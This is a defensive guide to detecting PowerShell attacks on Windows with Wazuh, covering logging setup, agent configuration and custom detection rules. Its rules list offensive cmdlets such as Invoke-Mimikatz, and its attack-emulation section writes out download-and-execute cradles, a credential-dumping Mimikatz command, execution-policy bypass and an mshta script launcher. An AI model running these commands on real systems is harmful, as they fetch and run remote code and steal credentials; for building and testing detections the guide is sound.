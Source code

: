 # Detecting PowerShell Exploitation Techniques in Windows Using Wazuh

This guide provides a step-by-step approach to detecting PowerShell exploitation techniques on Windows systems using Wazuh. It includes enabling PowerShell logging, configuring Wazuh agents, and creating custom detection rules.

---

## 1. Enabling PowerShell Logging

PowerShell does not collect detailed information about executed commands by default due to the associated system resource and storage demands. To enable comprehensive logging, follow these steps:

### Step 1: Enable PowerShell Logging
Run the following commands as an Administrator in PowerShell:

```powershell
function Enable-PSLogging {
    # Define registry paths for ScriptBlockLogging and ModuleLogging
    $scriptBlockPath = 'HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'
    $moduleLoggingPath = 'HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging'
    
    # Enable Script Block Logging
    if (-not (Test-Path $scriptBlockPath)) {
        $null = New-Item $scriptBlockPath -Force
    }
    Set-ItemProperty -Path $scriptBlockPath -Name EnableScriptBlockLogging -Value 1

    # Enable Module Logging
    if (-not (Test-Path $moduleLoggingPath)) {
        $null = New-Item $moduleLoggingPath -Force
    }
    Set-ItemProperty -Path $moduleLoggingPath -Name EnableModuleLogging -Value 1
    
    # Specify modules to log - set to all (*) for comprehensive logging
    $moduleNames = @('*')  # To specify individual modules, replace * with module names in the array
    New-ItemProperty -Path $moduleLoggingPath -Name ModuleNames -PropertyType MultiString -Value $moduleNames -Force

    Write-Output "Script Block Logging and Module Logging have been enabled."
}

Enable-PSLogging
```
> Output
> Script Block Logging and Module Logging have been enabled.
---

## 2. Configuring the Wazuh Agent

Modify the Wazuh agent configuration to forward PowerShell logs to the Wazuh server for analysis.

### Step 1: Update the Configuration File
Add the following configuration to the `<ossec_config>` block of the `ossec.conf` file located at `C:\Program Files (x86)\ossec-agent`:

```ps
notepad.exe 'C:\Program Files (x86)\ossec-agent\ossec.conf'
```
```xml
<localfile>
  <location>Microsoft-Windows-PowerShell/Operational</location>
  <log_format>eventchannel</log_format>
</localfile>
```

### Step 2: Restart the Wazuh Agent
Apply the changes by restarting the Wazuh agent:

```powershell
Restart-Service -Name wazuh
```

---

## 3. Creating Custom Detection Rules on the Wazuh Server

Custom rules help identify and respond to potential exploitation attempts. Perform the following steps on the Wazuh server:

### Step 1: Add Custom Rules
Insert the following rules into the `/var/ossec/etc/rules/local_rules.xml` file:

```sh
sudo nano /var/ossec/etc/rules/local_rules.xml
```
```xml
<group name="windows,powershell,">

  <rule id="100201" level="8">
    <if_sid>60009</if_sid>
    <field name="win.eventdata.payload" type="pcre2">(?i)CommandInvocation</field>
    <field name="win.system.message" type="pcre2">(?i)EncodedCommand|FromBase64String|EncodedArguments|-e\b|-enco\b|-en\b</field>
    <description>Encoded command executed via PowerShell.</description>
    <mitre>
      <id>T1059.001</id>
      <id>T1562.001</id>
    </mitre>
  </rule>
  
  <rule id="100202" level="4">
    <if_sid>60009</if_sid>
    <field name="win.system.message" type="pcre2">(?i)blocked by your antivirus software</field>
    <description>Windows Security blocked malicious command executed via PowerShell.</description>
    <mitre>
      <id>T1059.001</id>  
    </mitre>
  </rule>

  <rule id="100203" level="10">
    <if_sid>60009</if_sid>
    <field name="win.eventdata.payload" type="pcre2">(?i)CommandInvocation</field>    
    <field name="win.system.message" type="pcre2">(?i)Add-Persistence|Find-AVSignature|Get-GPPAutologon|Get-GPPPassword|Get-HttpStatus|Get-Keystrokes|Get-SecurityPackages|Get-TimedScreenshot|Get-VaultCredential|Get-VolumeShadowCopy|Install-SSP|Invoke-CredentialInjection|Invoke-DllInjection|Invoke-Mimikatz|Invoke-NinjaCopy|Invoke-Portscan|Invoke-ReflectivePEInjection|Invoke-ReverseDnsLookup|Invoke-Shellcode|Invoke-TokenManipulation|Invoke-WmiCommand|Mount-VolumeShadowCopy|New-ElevatedPersistenceOption|New-UserPersistenceOption|New-VolumeShadowCopy|Out-CompressedDll|Out-EncodedCommand|Out-EncryptedScript|Out-Minidump|PowerUp|PowerView|Remove-Comments|Remove-VolumeShadowCopy|Set-CriticalProcess|Set-MasterBootRecord</field>
    <description>Risky CMDLet executed. Possible malicious activity detected.</description>
    <mitre>
      <id>T1059.001</id>  
    </mitre>
  </rule>

  <rule id="100204" level="8">
    <if_sid>91802</if_sid>
    <field name="win.eventdata.scriptBlockText" type="pcre2">(?i)mshta.*GetObject|mshta.*new ActiveXObject</field>
    <description>Mshta used to download a file. Possible malicious activity detected.</description>
    <mitre>
      <id>T1059.001</id>  
    </mitre>
  </rule>

  <rule id="100205" level="5">
    <if_sid>60009</if_sid>
    <field name="win.eventdata.contextInfo" type="pcre2">(?i)ExecutionPolicy bypass|exec bypass</field>
    <description>PowerShell execution policy set to bypass.</description>
    <mitre>
      <id>T1059.001</id>
    </mitre>
  </rule>

  <rule id="100206" level="5">
    <if_sid>60009</if_sid>
    <field name="win.eventdata.contextInfo" type="pcre2">(?i)Invoke-WebRequest|IWR.*-url|IWR.*-InFile</field>
    <description>Invoke Webrequest executed, possible download cradle detected.</description>
    <mitre>
      <id>T1059.001</id>
    </mitre>
  </rule>

</group>
```

#### Rule Summary:
- **Rule ID 100201:** Detects encoded commands executed via PowerShell.
- **Rule ID 100202:** Alerts when malicious commands are blocked by Windows Security.
- **Rule ID 100203:** Identifies known malicious cmdlets or risky commands.
- **Rule ID 100204:** Detects the use of `mshta` for file downloads.
- **Rule ID 100205:** Detects scripts executed with the execution policy set to bypass.
- **Rule ID 100206:** Identifies potential download cradles using `Invoke-WebRequest`.

### Step 2: Restart the Wazuh Manager
Apply the new rules by restarting the Wazuh manager:

```bash
systemctl restart wazuh-manager
```

### Attack emulation
1.
```ps
curl "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/refs/heads/master/Collectors/SharpHound.ps1" -o SharpHound.ps1
powershell -ep bypass .\sharphound.ps1 --collectionmethod all
```
2.
```
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
```
3.
```
powershell -Command "IEX(New-Object Net.WebClient).DownloadString('https://secure.eicar.org/eicar.com.txt -OutFile eicar;.\eicar')"
```
4.
```
Invoke-WebRequest https://secure.eicar.org/eicar.com.txt -OutFile eicar;.\eicar
```

### Obfuscation and evasion

Run the below command to execute an encoded command using the EncodedCommand flag. This sample command prints Hello World to the screen:
```
powershell.exe -EncodedCommand "VwByAGkAdABlAC0ATwB1AHQAcAB1AHQAIAAiAEgAZQBsAGwAbwAgAFcAbwByAGwAZAAiAA=="
```

Threat actors may also use PowerShell’s execution policy bypass for malicious purposes and execute unauthorized scripts. By leveraging the -ExecutionPolicy Bypass flag (or any of its variants like exec bypass), attackers can override restrictions that prevent script execution, enabling them to deploy malicious payloads. This method allows unsigned or restricted scripts to run successfully on the endpoint.

Run the commands below to simulate a threat actor using execution bypass to run scripts:
```
echo "whoami" > "C:\Program Files (x86)\ossec-agent\active-response\bin\test.ps1"
Powershell -ExecutionPolicy bypass -File "C:\Program Files (x86)\ossec-agent\active-response\bin\test.ps1"
```
### Living off the land
```
mshta.exe "javascript:a=GetObject('script:#{url}').Exec();close()"
```
